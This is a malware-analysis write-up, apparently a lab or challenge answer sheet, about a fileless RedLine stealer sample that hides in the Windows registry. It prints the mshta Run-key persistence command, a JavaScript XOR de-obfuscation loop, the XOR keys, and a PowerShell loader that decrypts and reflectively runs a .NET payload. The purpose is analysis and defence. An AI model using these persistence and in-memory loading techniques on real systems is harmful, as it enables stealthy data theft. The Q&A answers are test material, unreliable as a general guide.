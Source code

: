 

## 🗂 Filesless Malware Using User Registry Hive

This analysis focuses on a **fileless malware** sample leveraging the Windows Registry for **persistence** and **payload storage**, commonly seen in RedLine stealer infections.

---

### 🔍 Persistence via `Run` Key

We observe the following command under the `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` key:

```cmd
"C:\Windows\System32\cmd.exe" /C start mshta.exe "javascript:var d6bRt=new ActiveXObject(WScript.shell);var o2eXl=d6bRt.RegRead('HKCU\\\\software\\\\PDFViewer\\\\Settings');eval(o2eXl);"
```

This uses `mshta.exe` to execute **JavaScript code** that:

1. Reads obfuscated content from the registry key `HKCU\Software\PDFViewer\Settings`.
2. Decodes and evaluates the script at runtime.

---

### 📌 Q1: What is windows built in ?

mshta.exe A built-in **LOLBAS** binary used to execute **HTML or JS** via Windows scripting.

---

### 📌 Q2: What registry key is involved?

```
HKCU\Software\PDFViewer\Settings
```

This contains the obfuscated JavaScript payload.

---

### 📦 Contents of `Settings` value:

```js
k2px = "5a1634090a3...snippet...436b";
YZDwG5 = "";

for (Y5JITecq = 0; Y5JITecq < k2px.length; Y5JITecq += 2)
   YZDwG5 += String.fromCharCode(parseInt(k2px.substr(Y5JITecq, 2), 16));

yWRHh23aHDjKD = "";

for (Sjuh5ZeqqzXyKS = ofpNn1wsYC7AZaiDa = 0; ofpNn1wsYC7AZaiDa < YZDwG5.length; ofpNn1wsYC7AZaiDa++) {
   yWRHh23aHDjKD += String.fromCharCode(
       YZDwG5.substr(ofpNn1wsYC7AZaiDa, 1).charCodeAt() ^
       gsHFf3JWfO.substr(Sjuh5ZeqqzXyKS, 1).charCodeAt()
   );
   Sjuh5ZeqqzXyKS = (Sjuh5ZeqqzXyKS < gsHFf3JWfO.length - 1) ? Sjuh5ZeqqzXyKS + 1 : 0;
}

eval(yWRHh23aHDjKD);
```

---

### 📌 Q3: XOR Key used

```
PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa
```

---

### 📥 Payload in `HKCU:\Software\nsem\zorsuhg`

Another PowerShell script is used to read and decrypt a .NET binary payload from the registry:

```powershell
$tiodsf2Gdefdaj = Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" |
  Select-Object -ExpandProperty "zorsuhg"

$pqiekvf = [byte[]]$tiodsf2Gdefdaj

$tuievkd23kdi0 = [byte[]](
  0x61,0x31,0x35,0x38,0x30,0x37,0x64,0x66,0x65,0x33,0x34,0x37,
  0x65,0x63,0x61,0x61,0x35,0x37,0x62,0x39,0x65,0x32,0x33,0x32,
  0x61,0x36,0x31,0x31,0x64,0x65,0x30,0x64,0x39,0x36,0x66,0x32,
  0x64,0x61,0x63,0x36,0x65,0x35,0x31,0x63,0x34,0x39,0x31,0x32,
  0x31,0x37,0x62,0x35,0x64,0x36
)

$eBy = @()
for ($i = 0; $i -lt $pqiekvf.Length; $i++) {
  $eBy += $pqiekvf[$i] -bxor $tuievkd23kdi0[$i % $tuievkd23kdi0.Length]
}

$sc32 = [byte[]]$eBy
$bdwrQYis = [System.Convert]::ToBase64String($sc32)
$PEQVDqyts = [System.Convert]::FromBase64String($bdwrQYis)
$assembly = [System.Reflection.Assembly]::Load($PEQVDqyts)

$lqTvcqdoppjds = $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').
  GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')

$lqTvcqdoppjds.Invoke($null, (, [string[]]@()))
```

This:

* Reads `zorsuhg` (a binary payload) from the registry.
* XOR-decrypts it with a static key.
* Loads and executes the in-memory .NET assembly.

---

### 📌 Q4: Where is the binary stored?

```
HKCU:\Software\nsem\zorsuhg
```

---

### 📌 Q5: Key used for XOR

```
a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6
```

---

### 📌 Q6: MD5 hash of decoded binary

```
f07e946c8273176316cf6d97dc780bd7
```

---

### 📌 Q7: Malware Family

```
RedLine Stealer
```

---

### 📌 Q8: Decompiled XOR key via dnSpy

```
Bounxcwkdkigednzzwbux
```

This key was likely used for runtime string decryption in the .NET payload.

---

### 🧩 Summary

This is a **multi-stage, fileless infection** that:

* Uses `mshta.exe` and `cmd.exe` for stealth execution.
* Stores malicious JS and .NET code in the **registry**, not disk.
* Uses **XOR** encryption and **ActiveX** objects for dynamic loading.
* Belongs to the **RedLine** stealer family, often used for data exfiltration.
